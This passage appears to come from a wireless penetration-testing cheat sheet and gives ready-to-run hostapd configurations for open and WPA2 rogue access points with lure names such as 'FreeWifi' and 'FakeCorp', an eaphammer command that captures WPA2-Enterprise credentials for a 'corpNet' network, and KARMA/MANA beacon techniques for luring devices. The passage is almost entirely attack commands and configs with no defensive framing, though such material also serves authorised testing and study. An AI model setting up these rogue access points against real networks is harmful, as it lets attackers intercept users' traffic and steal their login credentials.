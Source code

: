 ```bash
hostapd (or hostapd-mana) minimal config:

interface=wlan0
driver=nl80211
ssid=FreeWifi
hw_mode=g
channel=6
```
Start a DHCP server (e.g., dnsmasq) so clients get IP addresses.

---
### WPA/WPA2 Rogue AP

```bash
interface=wlan0
driver=nl80211
ssid=FakeCorp
hw_mode=g
channel=6
auth_algs=1
wpa=2
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
wpa_passphrase=AnyPassword
```

Then:
```bash
hostapd rogue.conf
```

---

### WPA2-Enterprise Rogue AP

Use **hostapd-mana** or **eaphammer** with `--auth wpa-eap` and the right TLS certs.
```bash
./eaphammer -i wlan0 --channel 6 --auth wpa-eap \
    --essid corpNet --creds
```

---

### KARMA / MANA / Loud MANA / Known-Beacons

- **KARMA**: Rogue AP responds to **directed probe requests** from clients for SSIDs in their PNL (Preferred Network List).
- **MANA**: Enhanced version of KARMA.
- **Loud MANA**: Sends beacons for all SSIDs discovered from clients or from a known wordlist.
- **Known-Beacons**: Systematically broadcast beacons for a huge SSID list (like a dictionary) to lure devices that probe those names.

```bash
# eaphammer example
./eaphammer -i wlan0 --mana --loud --known-beacons --known-ssids-file <wordlist>
```

---
